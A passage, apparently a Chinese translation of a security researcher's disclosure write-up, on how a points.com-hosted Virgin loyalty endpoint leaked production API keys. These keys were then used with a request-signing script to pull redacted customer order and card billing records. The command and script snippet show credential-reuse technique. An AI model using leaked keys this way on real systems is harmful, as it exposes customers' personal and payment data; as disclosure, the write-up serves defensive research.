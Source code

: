 
我們對這個網站很感興趣
- 因為它是由 `points.com` 託管的，很可能利用了 `points.com` 或 Virgin 公司的憑證來存取與其計劃相關的資訊
- 我們用 discovery tools，發現各種 PHP endpoint，包括一個傳回以下資訊的 `login1.php` endpoint


![](https://samcurry.net/wp-content/uploads/2023/08/image2.png)  


在 `login1.php` 中，似乎有測試獎勵會員的個人資料資訊和各種 key
- 所揭露的 key 包括客戶的 authorization token
- 更有趣的是，`macID` 和 `macKey`，我們認為這是 Virgin 的 `points.com` production 租戶帳號！


根據我們對 `lcp.points.com` API 的理解
- 我們可以使用這些 secret 代表航空公司存取 API
- 我們尋找一種方法來驗證這一點。在網路上搜尋了一段時間後，我們發現了以下程式碼，可以拿來用洩漏的憑證對 `lcp.points.com` API 的 HTTP request 進行簽署


```py
if __name__ == '__main__':
    if '-u' not in sys.argv:
        exit("Usage: %s -u <macKeyIdentifier>:<macKey> [curl options...] <url>" % os.path.basename(__file__))
```

我們可以用下面語法向 `lcp.points.com` 發送 Virgin 簽署的HTTP request API:
- https://github.com/xnt/Loyalty-Commerce-Platform/blob/0d9878bc29bae7c42e808b19865f6b91e1a02079/util/lcp_curl.py#L4


```shell
python lcp_curl.py -u MAC_ID:MAC_SECRET "https://lcp.points.com/v1/search/orders/?limit=1000"
```


執行 script，代表 Virgin program 向 `/v1/search/orders` endpoint 簽署 HTTP request 後，我們收到了:

```json
{
  "orders": [
    {
      "payment": {
      "billingInfo": {
      "cardName": "Visa",
      "cardNumber": "XXXXXXXXXXXXXXXX",
      "cardType": "VISA",
      "city": "REDACTED",
      "country": "US",
      "expirationMonth": 4,
      "expirationYear": 2023,
      "firstName": "REDACTED",
      "lastName": "REDACTED",
      "phone": "REDACTED",
      "state": "CA",
      "street1": "REDACTED",
      "zip": "REDACTED"
    }
  ...
  ],
  "totalCount": "2032431"
}
```
